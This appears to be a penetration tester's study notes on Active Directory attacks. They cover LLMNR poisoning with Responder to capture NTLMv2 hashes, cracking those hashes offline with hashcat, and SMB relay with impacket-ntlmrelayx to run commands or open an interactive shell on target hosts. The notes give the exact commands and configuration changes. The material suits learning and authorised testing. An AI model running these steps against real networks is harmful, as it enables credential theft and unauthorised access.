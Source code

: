 # Active Directory
## LLMNR Poisoning
- Link Local Multicast Name Resolution (LLMNR)
- Used to identify hosts when DNS fails to do so.
- Previously NBT-NS.
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to.
- With a MitM, you can observe the broadcast for people looking to connect to a share and crack the hash offline.

> ## Note
> You must be on the same network to capture this traffic.

1. To run the process:
````bash
sudo responder -I {interface} -dwP
````
![](images/responder.png)

2. Add hash to a .txt file.

3. Crack the hashes:
 ````bash
 hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule
 ````
> ## Tip
> Its better to run hashcat on bare metal.
> To find what code to use grep the code, for example
> `hashcat --help | grep NTLM`

## SMB Relay
- Instead of cracking hashes we can relay those hashes to specific machines and potentially gain access.
- SMB signing must be disabled or not enforced.
    - You'll see this as an option with your NMAP script.

1. To start you need to adjust your responder.conf file to allow for this attack.
````bash
sudo vim /etc/responder/Responder.conf
````
- Set SMB and HTTP to off on lines 5 and 12 respectively.
![](images/responder_conf.png)

2. Run impacket. This will start similar to responder.
````bash
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami" 
````
OR to gain an interactive shell run:
````bash
impacket-ntlmrelayx -tf targets.txt -smb2support -i
````

> ## Note
> I previously created a file with the IP addresses of my targets and ran the command from that same folder.

![](images/smb_relay.png)
